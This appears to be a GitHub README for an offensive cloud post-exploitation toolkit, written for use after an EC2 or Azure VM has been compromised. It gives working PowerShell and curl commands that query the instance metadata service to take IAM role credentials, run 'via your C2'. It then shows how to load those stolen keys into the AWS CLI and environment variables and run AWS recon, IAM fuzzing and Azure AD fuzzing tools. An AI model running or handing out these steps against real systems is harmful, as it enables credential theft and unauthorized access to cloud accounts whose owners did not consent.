 ## Prerequisites:

- Java + Maven Setup
- Java 11 or higher (java -version)
- Maven (mvn -v)

Install all packages:

```
pip install -r requirements.txt
```

## Step 1: Extract AWS Credentials from EC2 Instance
Run this in the compromised EC2 (PowerShell or cmd via your C2):

```
Invoke-RestMethod -Uri http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Then get the actual credentials:

```
Invoke-RestMethod -Uri http://169.254.169.254/latest/meta-data/iam/security-credentials/<ROLE_NAME>
```

You’ll get output like:

```
{
  "AccessKeyId": "AKIA***********",
  "SecretAccessKey": "***************",
  "Token": "***************",
  "Expiration": "2025-06-14T14:00:00Z"
}
```

## Step 2: Use aws configure
Run this:

```
aws configure
```

It will ask:
```
AWS Access Key ID:     <your_access_key>
AWS Secret Access Key: <your_secret_key>
Default region name:   us-east-1 (or any region)
Default output format: json
```

Then run the script:

```
python3 aws_cloud_recon.py
python3 aws_iam_fuzzer.py
```
![image](https://github.com/user-attachments/assets/c5beda34-d9b0-4140-bd31-657d761cd771)


## Step 3: Extract Azure Credentials

On Azure VM

```
Invoke-WebRequest -Headers @{"Metadata"="true"} -Uri "http://169.254.169.254/metadata/instance?api-version=2021-01-01"
```
Or in Linux:

```
curl -H "Metadata: true" "http://169.254.169.254/metadata/instance?api-version=2021-01-01"
```

## Export Credentials to Environment
In your terminal (replace placeholders with real values):

```

export AZURE_CLIENT_ID="xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
export AZURE_TENANT_ID="xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
export AZURE_CLIENT_SECRET="your-client-secret-here"
```

To make it permanent, add to ~/.bashrc or ~/.zshrc.

## Compile with Maven
Ensure you are in the same directory as your pom.xml, then run:

```
mvn clean compile
```
![image](https://github.com/user-attachments/assets/6fedd788-04fc-47fd-96a9-1afd3f79b072)

Then run:

```
mvn exec:java -Dexec.mainClass="AzureADFuzzer"
```
![image](https://github.com/user-attachments/assets/3c50deb5-96fa-477b-83a9-16f89c92cbbf)

